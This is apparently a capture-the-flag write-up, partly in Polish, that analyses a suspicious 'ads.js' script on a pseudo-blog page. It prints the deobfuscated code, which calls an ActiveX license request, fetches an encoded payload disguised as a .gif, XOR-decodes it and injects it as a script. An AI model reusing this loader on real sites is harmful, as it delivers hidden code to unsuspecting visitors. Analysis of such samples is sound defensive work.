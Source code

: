 This code is after minimal deobfuscation. I had problems with executing this code (it showed me empty page and nothing more), but luckily friend from team executed this code and volia, we get the flag:

![](flag.png)

###PL version

Wchodzimy na stronę na której na pierwszy rzut oka nic nie ma (pseudo-blog). Rzuca się w oczy jedynie jakiś javascript na dole strony (nazwany "ads.js"). Po deobfuskacji wyglądał mniej więcej tak:


```javascript
var mnt = function() {
	window.host = location.host;
	window.scheme = 'http://';
	window.getLicenseUrl = function() {
		console.log('getting lic url')
		var ax = document.getElementsByTagName('img');
		for (var i = 0; i < ax.length; i++) {
			if (-1 < ax[i].src.indexOf(host)) {
				return "http://" + host + "/images/creature.html?adv=900485&o=7927932&m=844431838&creature=629999&yf=INfzIJzt9bRSOkjD&click=${CLICK_URL_ENC}&type=js&pub=openxnat_1569894390&ord=1450370740864";
			}
		}
	};
	callbackOnLoad = function() {
		console.log('callback');
		var ax = xtr.responseText,
			mn = '/1/',
			cm = '%';
		var data = unescape(ax.substr(3 + ax.indexOf(mn)).replace(/[\S]{3}/g, function(b) {
			return cm + String.fromCharCode(b.charCodeAt(1) ^ ((scheme.length+1) * 6)) + b[2];
		}));
		var sta = document.createElement('sc' + 'rip' + 't');
		sta.innerHTML = data;
		document.body.appendChild(sta);
	};
	licenseRequest = function(command) {
		try {
			console.log('lic request');
			new ActiveXObject(command).GetLicenseFromURL([], getLicenseUrl().replace(scheme, 'http://'))
		} catch (et) {
			return et.number + ''
		}
	};
	suspicious = function() {
		with (xtr = (window.XDomainRequest && (new XDomainRequest) || (new XMLHttpRequest)))
			open('get', scheme + host + '/images/9J2bkcUJHUTTnOmcd56DXVmz.gif' + '?t=' + (new Date).getTime() + '&id=M8XIgp9526a9'), onload = callbackOnLoad, send()
	};
	document.security && 1 && suspicious();
};
mnt();
```
